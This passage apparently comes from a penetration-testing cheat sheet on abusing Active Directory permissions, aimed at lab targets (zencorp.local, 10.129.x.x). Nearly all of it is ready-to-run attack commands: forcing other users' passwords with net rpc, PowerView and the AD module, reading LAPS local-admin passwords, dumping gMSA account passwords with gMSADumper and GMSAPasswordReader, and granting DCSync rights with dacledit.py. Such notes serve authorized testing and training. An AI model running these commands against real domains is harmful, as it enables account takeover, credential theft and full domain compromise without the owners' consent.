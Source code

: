 ```bash
net rpc password holly newpass123 -U zencorp.local/john%pass123 -S 10.129.205.81
```

Change password Windows

```powershell
Set-DomainUserPassword -Identity holly -AccountPassword $((ConvertTo-SecureString 'newpass123' -AsPlainText -Force)) -Verbose

# With AD module
Set-ADAccountPassword yolanda -NewPassword $((ConvertTo-SecureString 'NewpasswordfromW2' -AsPlainText -Force)) -Reset -Verbose
```

### <mark style="color:yellow;">ReadLAPSPassword</mark>

Microsoft's [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) allows companies to manage their local admin passwords. See [laps.md](../../windows/laps.md "mention")

#### Read password from Windows

```powershell
# Using powerview
Get-DomainObject -Identity LAPS09 -Properties "ms-mcs-AdmPwd",name

# AD Module
Get-ADComputer -Identity LAPS09 -Properties "ms-mcs-AdmPwd",name
```

#### Read password from Linux

```bash
laps.py -u holly -p Password123 -l 10.129.205.81 -d zencorp.local
```

### <mark style="color:yellow;">ReadGMSAPassword</mark>

```bash
gMSADumper.py -d zencorp.local -l 10.129.205.81 -u john -p pass123
```

From windows

```powershell
GMSAPasswordReader.exe --accountname apache-dev
```

### <mark style="color:yellow;">WriteDacl</mark>

With WriteDacl we can give DCSync rights.

```bash
dacledit.py -principal holly -target-dn dc=zencorp,dc=local -dc-ip 10.129.205.11 zencorp.local/holly:pass123 -action write -rights DCSync
```
